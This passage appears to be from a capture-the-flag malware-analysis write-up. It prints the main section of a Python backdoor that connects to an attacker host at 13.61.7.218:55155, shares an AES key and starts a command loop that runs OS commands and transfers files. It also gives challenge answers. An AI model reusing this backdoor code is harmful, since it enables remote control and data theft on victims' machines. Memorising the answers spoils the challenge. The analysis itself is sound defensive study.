 ```python
        except Exception:
            time.sleep(60)
            continue


if __name__ == "__main__":
    try:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(("13.61.7.218", 55155))

        # Generate encryption key
        k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))

        client.send(f"{user}{SEPARATOR}{k}".encode())

        client.settimeout(600)

        receive_thread = threading.Thread(target=receive, args=(client, k))
        receive_thread.start()
    except Exception:
        time.sleep(60)
        pass

```
When the malware starts it connects back to the attacker using this line:
```py
client.connect(("13.61.7.218", 55155))
```
* Answer:`13.61.7.218:55155`

### [5/6] What encryption key did the attacker use to secure the data?

Next, analyzing the code provides deeper insight into how to reverse-engineer it.
- **`enc_mes(mes, key)`**  
  Encrypts a message or file (in bytes) using AES in CBC mode with the randomly generated key.  

- **`dec_mes(mes, key)`**  
  Decrypts incoming data (e.g., commands) from the remote server using the same AES-CBC key.  

- **`dec_file_mes(mes, key)`**  
  Also decrypts data, primarily intended for file content, then unpads it.  

- **`receive_file()`**  
  Connects to a second port (`54163`) on the remote server, retrieves an encrypted file, decrypts it, and writes it locally.  

- **`receive(client, k)`**  
  Main loop that listens for commands from the attacker. Executes OS commands, handles file transfers (`send_file` / `get_file`), and attempts reconnection on failure.  

- **`__main__` section**  
  Establishes the primary connection (port `55155`) to the remote server, generates and shares the AES key, and starts the `receive` thread to handle commands.
